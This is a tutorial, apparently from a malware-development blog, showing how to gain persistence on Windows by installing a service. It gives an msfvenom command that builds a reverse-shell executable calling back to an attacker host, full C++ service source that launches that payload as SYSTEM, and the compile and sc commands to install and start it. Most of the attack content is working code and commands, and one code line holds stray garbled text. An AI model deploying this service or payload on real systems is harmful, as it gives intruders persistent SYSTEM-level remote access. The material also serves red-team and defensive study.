



# 05 persistence - windows services

Windows Services are essential for hacking due to the following reasons:    

- They operate natively over the network – the entire Services API was created with remote servers in mind.    
- They start automatically when the system boots.    
- They may have extremely high privileges in the operating system.   

Managing services requires high privileges, and an unprivileged user can often only view the settings.
This has not changed in over twenty years.    

In a Windows context, improperly configured services might lead to privilege escalation or be utilized as a persistence technique.
So, creating a new service requires Administrator credentials and is not a stealthy persistence approach.   

Let's go to consider practical example: how to create and run a Windows service that receives a reverse shell for us.

First of all create reverse shell `exe` file via `msfvenom` from my attacker machine:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

    

    

Then, create service which run my `meow.exe` in the target machine.

The minimum requirements for a service are the following:
- A Main Entry point (like any application)    
- A Service Entry point    
- A Service Control Handler    

In the main entry point, you rapidly invoke `StartServiceCtrlDispatcher` so the `SCM` may call your Service Entry point (`ServiceMain`):    

```cpp
int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

The Service Main Entry Point performs the following tasks:
- Initialize any required things that we postponed from the Main Entry Point.    
- Register the service control handler (`ControlHandler`) that will process Service Stop, Pause, Continue, etc. control commands.    
- These are registered as a bit mask via the `dwControlsAccepted` field of the `SERVICE STATUS` structure.    
- Set Service Status to `SERVICE RUNNING`.
- Perform initialization procedures. Such as creating threads/events/mutex/IPCs, etc.

```cpp
void ServiceMain(int argc, char** argv) {
  serviceStatus.dwServiceType        = SERVICE_WIN32;
  serviceStatus.dwCurrentState       = SERVICE_START_PENDING;
  serviceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
  serviceStatus.dwWin32ExitCode      = 0;
  serviceStatus.dwServiceSpecificExitCode = 0;
  serviceStatus.dwCheckPoint         = 0;
  serviceStatus.dwWaitHint           = 0;

  hStatus = RegisterServiceCtrlHandler("MeowService", (LPHANDLER_FUNCTION)ControlHandler);
  RunMeow();

  serviceStatus.dwCurrentState = SERVICE_RUNNING;
  SetServiceStatus (hStatus, &serviceStatus);

  while (serviceStatus.dwCurrentState == SERVICE_RUNNING) {
    Sleep(SLEEP_TIME);
  }
  return;
}
```

The Service Control Handler was registered in your Service Main Entry point. Each service must have a handler to handle control requests from the SCM:
```cpp
void ControlHandler(DWORD request) {
  switch(request) {
    case SERVICE_CONTROL_STOP:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    case SERVICE_CONTROL_SHUTDOWN:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.   

Also, create function with malicious logic:    

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

Of course, this code is not reference and it is more *"dirty"* Proof of Concept.    

Compile our service:

```bash
x86_64-w64-mingw32-g++ -O2 meowsrv.c -o cat.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

We can install the service from the command prompt by running the following command in target machine `Windows 10 x64`. Remember that all commands run as administrator:

```powershell
sc create MeowService binpath= "Z:\cat.exe" start= auto
```

    

Check:

```powershell
sc query MeowService
```

    

If we open the `Process Hacker`, we will see it in the `Services` tab:    

    

If we check its properties:    

    

The `LocalSystem` account is a predefined local account used by the service control manager. It has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators` SIDs; these accounts have access to most system objects. The name of the account in all locales is `.\LocalSystem`. The name, `LocalSystem` or `ComputerName\LocalSystem` can also be used. This account does not have a password. If you specify the `LocalSystem` account in a call to the `CreateService` or `ChangeServiceConfig` function, any password information you provide is ignored [via MSDN](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account).    

Then, start service via command:
```powershell
sc start MeowService
```

    

    

And as you can see, we got a reverse shell!:

    

And our `MeowService` service got a `PID: 5668`:

    

Then, run `Process Hacker` as non-admin User:

    

As you can see, it doesn't show us the username. But, running `Process Hacker` as Administartor changes the situation, and we see that our shell running on behalf `NT AUTHORITY\SYSTEM`:

    

We will see it in the `Network` tab:   

    

So, everything is worked perfectly :)    

Let's go cleaning after completion of experiments. Stop service:

```powershell
sc stop MeowService
```

    

So, `MeowService` successfully stopped. And if we delete it:

```powershell
sc delete MeowService
```

    

We can see `Process Hacker`'s notification about this.    

But, **there is one very important caveat**. You might wonder why we just not running command:    

```powershell
sc create MeowService binpath= "Z:\meow.exe" start= auto
```

Because, `meow.exe` is not actually a service. As I wrote earlier, the minimum requirements for a service are following specific functions: main entry point, service entry point and service control handler. If you try create service from just `meow.exe`. It's just terminate with error.   
